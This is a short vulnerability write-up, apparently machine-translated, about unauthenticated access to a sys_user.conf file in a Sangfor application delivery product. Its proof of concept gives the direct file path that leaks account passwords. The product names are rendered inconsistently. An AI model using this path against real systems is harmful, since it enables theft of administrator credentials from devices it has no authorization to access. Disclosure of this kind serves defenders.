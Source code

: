 #Shenxinshui Application Delivery Management System sys_user.conf Account Password Leakage Vulnerability

## Vulnerability Description

Deepin Service Application Delivery Management System File sys_user.conf can be accessed directly without authorization, resulting in account password leakage

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui Application Delivery Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646105000489-5727976c-4824-4f44-9c53-729cd9410f93.png)

Verify POC

```javascript
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646105017682-f6969569-17c3-4386-aa54-792537cab576.png)